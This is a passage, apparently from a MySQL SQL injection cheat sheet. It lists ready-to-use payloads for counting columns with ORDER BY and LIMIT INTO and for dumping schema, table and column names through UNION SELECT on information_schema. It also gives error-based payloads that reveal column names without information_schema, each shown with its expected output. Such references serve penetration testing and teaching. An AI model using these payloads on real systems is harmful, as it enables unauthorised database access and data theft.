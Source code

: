 ```sql
ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+ # Unknown column '4' in 'order clause'
```


#### LIMIT INTO Method

This method is effective when error reporting is enabled. It can help determine the number of columns in cases where the injection point occurs after a LIMIT clause. 

| Payload                      | Error           |
| ---------------------------- | --------------- |
| `1' LIMIT 1,1 INTO @--+`     | `The used SELECT statements have a different number of columns` |
| `1' LIMIT 1,1 INTO @,@--+ `  | `The used SELECT statements have a different number of columns` |
| `1' LIMIT 1,1 INTO @,@,@--+` | `No error means query uses 3 columns` |

Since the result doesn't show any error it means the query uses 3 columns: `-1' UNION SELECT 1,2,3--+`.


### Extract Database With Information_Schema

This query retrieves the names of all schemas (databases) on the server.

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata
```

This query retrieves the names of all tables within a specified schema (the schema name is represented by PLACEHOLDER).

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=PLACEHOLDER
```

This query retrieves the names of all columns in a specified table.

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=...
```

This query aims to retrieve data from a specific table.

```sql
UNION SELECT 1,2,3,4,...,GROUP_CONCAT(0x7c,data,0x7C) FROM ...
```


### Extract Columns Name Without Information_Schema

Method for `MySQL >= 4.1`.

| Payload | Output |
| --- | --- |
| `(1)and(SELECT * from db.users)=(1)` | Operand should contain **4** column(s) |
| `1 and (1,2,3,4) = (SELECT * from db.users UNION SELECT 1,2,3,4 LIMIT 1)` | Column '**id**' cannot be null |
